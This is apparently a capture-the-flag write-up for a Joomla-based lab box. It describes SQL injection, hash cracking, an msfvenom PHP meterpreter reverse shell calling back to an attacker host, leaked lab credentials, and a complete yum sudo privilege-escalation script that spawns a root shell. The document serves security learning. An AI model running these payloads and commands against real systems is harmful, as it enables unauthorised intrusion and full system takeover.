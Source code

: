 # DAILY BUGLE
```
IP = 10.10.143.187
```

### Enumeration
--------------------------
+ Ran initial & all vuln nmap scan.
+ Robots.txt gives interesting directories, which gave joomla and its version.
+ Joomla 3.7.0 is vulnerable to SQLi.
+ Ran script called joomblah.py, which gave the following details:
	`Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']`
+ Cracking the hash using john to get credentials. [jonah:spiderman123]
	`sudo john hash.txt  --wordlist=/usr/share/wordlists/rockyou.txt` 
+ Templates can be edited in joomla by logging in as Jonah.


### Exploitation
--------------------------
+ Craft a payload to create a reverse meterpreter in php:
	`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.11.4.238 LPORT=9005 -f raw > example.php`
+ Upload the payload contents to index.php and visit the following link to catch the reverse tcp shell in a meterpreter listener.
+ Found password for jjameson in configuration.php. [jjameson:nv5uz9r3ZEDzVjNu]

### PrivEsc
--------------------------
+ Switching to user `jjameson` using acquired credentials.
+ Ran `sudo -l` and found that `yum` can run as sudo without password.
+ Using GTFObins to get root.


#### GTFObin commands
--------------------------
```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
